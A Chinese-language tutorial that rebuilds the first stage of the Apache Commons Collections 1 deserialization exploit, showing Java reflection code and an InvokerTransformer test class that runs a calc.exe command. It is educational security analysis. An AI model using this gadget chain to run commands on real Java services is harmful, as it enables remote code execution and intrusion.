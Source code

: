 前一篇讲了[Commons Collections1的前置知识](https://www.yuque.com/da-labs/secnotes/dzakgq)，三要素有`payload`，`反序列化利用链`，`可重写的readObject方法`
## 重构POC
首先明确最终目的是要执行命令，也就是说执行`Runtime.getRuntime.exec("")`

- Runtime.getRuntime：获取一个Runtime实例
- exec：调用实例的exec函数

因为漏洞函数最后是通过反射机制调用任意这个语句先转化成反射机制如下（后面需要用到）：
```java
Class.forName("java.lang.Runtime").getMethod("exec",String.class).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),"calc.exe")
```
### InvokerTransformer
回看反射机制触发函数`InvokerTransformer`类的`transform(Object input)`
```java
public Object transform(Object input) {
    Class cls = input.getClass();
    Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
    return method.invoke(input, this.iArgs);
}
```
通过构造反射机制以及以上代码进行填空，可以得出当变量等于以下值，可以形成命令执行
```java
// Object input
input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
this.iMethodName = "exec"; 
this.iParamTypes = String.class;
this.iArgs = "calc.exe";
```
那么在`InvokerTransformer`类源码中我们可以找到赋值
```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}
```
我们就可以构建以下测试代码直接调用InvokerTransformer通过反射执行任意命令：
下面开始试一下：
```java
package com.myproject;
import org.apache.commons.collections.functors.InvokerTransformer;


public class test {

    public static void main(String[] args) throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class},new Object[]{"calc.exe"});
        Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
        invokerTransformer.transform(input);
    }
}
```
![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_42_qTDHgbrN.png)
